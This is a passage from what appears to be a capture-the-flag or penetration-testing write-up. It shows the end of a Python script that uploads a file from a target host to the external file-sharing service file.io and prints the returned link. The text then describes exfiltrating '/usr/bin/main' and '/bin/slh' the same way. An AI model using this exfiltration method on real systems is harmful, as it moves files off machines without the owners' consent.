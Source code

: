 ```
        '\r\n'
    ).encode('utf-8')
    
    form_data += f.read()
    form_data += f'\r\n--{boundary}--\r\n'.encode('utf-8')

headers = {
    'Content-Type': f'multipart/form-data; boundary={boundary}'
}

request = urllib.request.Request(url, data=form_data, headers=headers)
response = urllib.request.urlopen(request)
result = json.loads(response.read().decode('utf-8'))
print(result['link'])

```

> The output of the script above should be a link similar to: https://file.io/PqjegAcFY0Dk
> 
> Once exfiltrated, we can download the file '/usr/bin/main' and '/bin/slh' using the same method:
> 
> ![](attachments/Pasted%20image%2020241129152846.png)
> 
> To download the file, simply navigate to the link using a browser.
